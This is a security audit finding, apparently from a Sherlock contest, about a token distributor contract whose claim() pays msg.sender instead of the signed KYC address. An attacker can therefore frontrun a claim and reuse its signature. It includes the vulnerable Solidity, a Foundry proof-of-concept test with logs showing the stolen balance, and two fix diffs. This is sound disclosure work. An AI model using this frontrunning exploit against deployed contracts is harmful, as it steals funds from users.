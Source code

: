 Fancy Fern Trout

High

# Attacker can steal tokens intended for KYC-verified address

### Summary

A missing validation of `msg.sender` in [claim()](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106) will cause a loss of rewards intended for `kycAddress`, because an attacker can frontrun the transaction, using the same signature.

### Root Cause

The [claim()](https://github.com/sherlock-audit/2024-11-vvv-exchange-update/blob/main/vvv-platform-smart-contracts/contracts/vc/VVVVCTokenDistributor.sol#L106) function validates input parameters using a signature, but has a critical flaw in its token transfer logic. While the signature verifies the parameters are correct, the function sends tokens to `msg.sender` rather than the intended `_params.kycAddress`. Since `msg.sender` is not part of the signed data and isn't validated against `kycAddress`, this allows tokens to be sent to an unverified address that wasn't part of the original signed parameters.

```solidity
    function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }

        if (_params.projectTokenProxyWallets.length != _params.tokenAmountsToClaim.length) {
            revert ArrayLengthMismatch();
        }

        if (_params.nonce <= nonces[_params.kycAddress]) {
            revert InvalidNonce();
        }

        if (!_isSignatureValid(_params)) {
            revert InvalidSignature();
        }

        // update nonce
        nonces[_params.kycAddress] = _params.nonce;

        // define token to transfer
        IERC20 projectToken = IERC20(_params.projectTokenAddress);

        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
@>                msg.sender,
                _params.tokenAmountsToClaim[i]
            );
        }

        emit VCClaim(
            _params.kycAddress,
            _params.projectTokenAddress,
            _params.projectTokenProxyWallets,
            _params.tokenAmountsToClaim,
            _params.nonce
        );
    }
```

### Internal pre-conditions

_No response_

### External pre-conditions

_No response_

### Attack Path

1. The user generates the parameters and retrieves a signature from the centralized system.
2. The user creates a transaction.
3. The attacker monitoring the mempool can frontrun by sending another transaction with the same signature.

### Impact

The user will lose his share of tokens.

### PoC

```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.23;

import {VVVVCTokenDistributorUnitTests} from "./VVVVCTokenDistributor.unit.t.sol";
import {VVVVCTokenDistributor} from "contracts/vc/VVVVCTokenDistributor.sol";
import {console} from "forge-std/console.sol";

contract PoC is VVVVCTokenDistributorUnitTests {
    function testPoC() public {
        address attacker = makeAddr("attacker");
        uint256 attackerBalance = ProjectTokenInstance.balanceOf(attacker);
        uint256 sampleKycAddressBalance = ProjectTokenInstance.balanceOf(sampleKycAddress);

        address[] memory thisProjectTokenProxyWallets = new address[](1);
        uint256[] memory thisTokenAmountsToClaim = new uint256[](1);

        thisProjectTokenProxyWallets[0] = projectTokenProxyWallets[0];

        uint256 claimAmount = sampleTokenAmountsToClaim[0];
        thisTokenAmountsToClaim[0] = claimAmount;

        VVVVCTokenDistributor.ClaimParams memory claimParams =
            generateClaimParamsWithSignature(sampleKycAddress, thisProjectTokenProxyWallets, thisTokenAmountsToClaim);
        
        console.log("Amount to be claimed: ", claimAmount);
        console.log("KYC Address' nonce in the Distributor: ", TokenDistributorInstance.nonces(sampleKycAddress));
        console.log("KYC Address' Balance: ", sampleKycAddressBalance);
        console.log("Attacker's Initial Balance: ", attackerBalance);

        console.log("-------Attacker claims with Kyc Address Signature-------");
        claimAsUser(attacker, claimParams);

        attackerBalance = ProjectTokenInstance.balanceOf(attacker);
        sampleKycAddressBalance = ProjectTokenInstance.balanceOf(sampleKycAddress);

        console.log("KYC Address' nonce in the Distributor: ", TokenDistributorInstance.nonces(sampleKycAddress));
        console.log("KYC Address' Balance: ", sampleKycAddressBalance);
        console.log("Attacker's Balance: ", attackerBalance);
        assertTrue(ProjectTokenInstance.balanceOf(attacker) == claimAmount);
        assertTrue(ProjectTokenInstance.balanceOf(sampleKycAddress) == 0);
    }
}
```
Logs:
```logs
  Amount to be claimed:  1111000000000000000000
  KYC Address' nonce in the Distributor:  0
  KYC Address' Balance:  0
  Attacker's Initial Balance:  0
  -------Attacker claims with Kyc Address Signature-------
  KYC Address' nonce in the Distributor:  1
  KYC Address' Balance:  0
  Attacker's Balance:  1111000000000000000000
```


### Mitigation

There are two solutions for the problem. 
1. Only the `kycAddress` could call claim.
```diff
   function claim(ClaimParams memory _params) public {
        if (claimIsPaused) {
            revert ClaimIsPaused();
        }
+       if(_params.kycAddress != msg.sender){
+           revert ...
+       }
       ...
```
2. Everyone can call `claim`, but the `kycAddress` will receive the funds
```diff
    function claim(ClaimParams memory _params) public {
         ...
        // transfer tokens from each wallet to the caller
        for (uint256 i = 0; i < _params.projectTokenProxyWallets.length; i++) {
            projectToken.safeTransferFrom(
                _params.projectTokenProxyWallets[i],
-               msg.sender
+               _params.kycAddress,
                _params.tokenAmountsToClaim[i]
            );
        }
       ...
```